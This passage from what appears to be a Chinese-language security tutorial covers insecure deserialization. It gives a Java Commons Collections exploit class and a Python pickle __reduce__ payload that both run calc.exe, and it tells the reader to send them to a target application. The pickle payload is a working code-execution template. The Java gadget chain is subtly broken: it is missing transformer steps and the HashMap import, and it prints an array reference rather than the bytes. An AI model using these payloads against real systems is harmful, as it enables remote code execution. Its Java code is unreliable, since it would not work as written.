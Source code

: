 #### 3.1.2 Python环境
- 安装Python 3.x。
- 使用`pickle`模块进行序列化和反序列化。

### 3.2 攻击步骤
#### 3.2.1 Java反序列化漏洞利用
1. 构造恶意序列化数据：
   ```java
   import java.io.ByteArrayOutputStream;
   import java.io.ObjectOutputStream;
   import org.apache.commons.collections.functors.InvokerTransformer;
   import org.apache.commons.collections.functors.ChainedTransformer;
   import org.apache.commons.collections.map.TransformedMap;

   public class Exploit {
       public static void main(String[] args) throws Exception {
           ChainedTransformer chain = new ChainedTransformer(new InvokerTransformer[] {
               new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc.exe" })
           });
           TransformedMap map = (TransformedMap) TransformedMap.decorate(new HashMap(), null, chain);
           ByteArrayOutputStream bos = new ByteArrayOutputStream();
           ObjectOutputStream oos = new ObjectOutputStream(bos);
           oos.writeObject(map);
           oos.close();
           System.out.println(bos.toByteArray());
       }
   }
   ```
2. 发送恶意序列化数据到目标应用程序。
3. 观察目标应用程序是否执行了恶意代码。

#### 3.2.2 Python反序列化漏洞利用
1. 构造恶意序列化数据：
   ```python
   import pickle
   import os

   class Exploit(object):
       def __reduce__(self):
           return (os.system, ('calc.exe',))

   payload = pickle.dumps(Exploit())
   print(payload)
   ```
2. 发送恶意序列化数据到目标应用程序。
3. 观察目标应用程序是否执行了恶意代码。

## 4. 实际命令、代码或工具使用说明
